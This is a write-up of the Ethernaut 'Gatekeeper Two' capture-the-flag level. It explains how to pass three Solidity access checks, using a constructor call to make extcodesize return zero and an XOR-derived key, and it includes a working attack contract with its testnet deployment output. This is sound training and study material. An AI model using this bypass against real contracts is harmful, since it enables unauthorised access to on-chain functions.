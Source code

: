 # 14 - Gatekeeper Two

## Challenge

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

Things that might help:

- Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
- The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [here](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
- The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [here](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## Summary

`gateOne()` is the same as last level. Nothing new.

`gateTwo()` checks if the caller has any code. `extcodesize` returns the size of the code at the address. It seems always non-zero, however here we need it to be 0. Challenge description mentions that we can reference section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf). Section 7 is "Contract Creation":

> 7.1. Subtleties. Note that while the initialisation code is executing, the newly created address exists but with no intrinsic body code[5]. Thus any message call received by it during this time causes no code to be executed.
>
> [5] During initialization code execution, `EXTCODESIZE` on the address should return zero, which is the length of the code of the account while `CODESIZE` should return the length of the initialization code.

As seen here, we can call `enter` inside the constructor of our intermediate hack contract. It will be executed during initialization, so `extcodesize` will return 0. We can then pass `gateTwo()`.

`gateThree()` has a long check: `uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max`. `type(uint64).max` is obviously `2**64 - 1`. It is also important to notice `msg.sender` is essentially the deployed hack contract address, or `address(this)`.

So `_gateKey` actually equals to the xor of `uint64(bytes8(keccak256(abi.encodePacked(address(this)))))` and `0xffffffffffffffff`.

At this stage we understand all 3 gates and can solve the level easily.

## Walkthrough

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import compile_sol
>>> conn = Connection("https://goerli.infura.io/v3/<key>")
>>> account = conn.account("<priv_key>")
>>> contract_addr = '"0xf32259ecF7d25D5b445238d739313ED1246727B4"'
```

Deploy contract:

```py
>>> abi, bytecode = compile_sol('''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwoHack {
    bool public succeeded;

    constructor(address _gatekeeperTwoAddr) {
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ 0xffffffffffffffff);
        (bool success, ) = address(_gatekeeperTwoAddr).call(abi.encodeWithSignature("enter(bytes8)", key));
        if (success) {
            succeeded = true;
        }
    }
}
''',
solc_version="0.8.17",
base_path="Ethernaut/node_modules/"
)['GatekeeperTwoHack']
>>>
>>> attackContract = conn.contract(account, abi=abi, bytecode=bytecode)
>>> attackContract.deploy(contract_addr)
2023-06-19 23:53:07.905 | DEBUG    | cheb3.contract:deploy:94 - Deploying contract ...
2023-06-19 23:53:17.054 | INFO     | cheb3.contract:deploy:99 - The contract is deployed at 0x2F8CE08Ce0150BF9e138e1b22C7E8f4dC7611D12
```

```py
>>> attackContract.functions.succeeded().call()
True
```

Now `await contract.entrant()` shows my own wallet address. Finally, submit the instance to pass the level.